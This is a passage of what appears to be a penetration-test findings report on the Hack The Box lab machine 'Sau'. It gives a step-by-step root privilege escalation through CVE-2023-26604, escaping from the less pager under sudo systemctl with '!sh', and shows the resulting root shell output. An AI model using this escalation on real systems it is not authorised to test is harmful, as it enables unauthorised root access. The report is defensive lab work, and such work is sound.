 ## HTBSAU-2024-03 CVE-2023-26604 Privilege Escalation
### Observation
The Ubuntu operating system on `sau.htb` is running an unpatched version. The version has vulnerability CVE-2023-26604 that affects system services run using `sudo`.

### Affected Components
 - Ubuntu 20.04.6 LTS on `sau.htb`

### Description
The `puma` user was compromised by HTBSAU-2024-02. This user is allowed to run the following command:
```shell
$ sudo /usr/bin/systemctl status trail.service
```

When the output needs to be paged, the `less` program is used. This program allows command execution, and it is running as the `root` user.

### Mitigation
Upgrade Ubuntu to a patched version.

### Validation
1. Login as the `puma` user
2. Execute the following commands:
```shell
$ stty columns 200 rows 10
$ sudo /usr/bin/systemctl status trail.service
!sh
```
3. On a vulnerable system, the `!sh` input to the `less` program will result in a shell
```shell
!sh
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

### References
- [https://ubuntu.com/security/CVE-2023-26604](https://ubuntu.com/security/CVE-2023-26604)

## HTBSAU-2024-04 MailTrail Default Credentials
### Observation
The MalTrail application was exposed through the SSRF vulnerability described in HTBSAU-2024-01. It is configured with default credentials for the `admin` account.

### Affected Components
- Web application on sau.htb running on `http://localhost:80/`
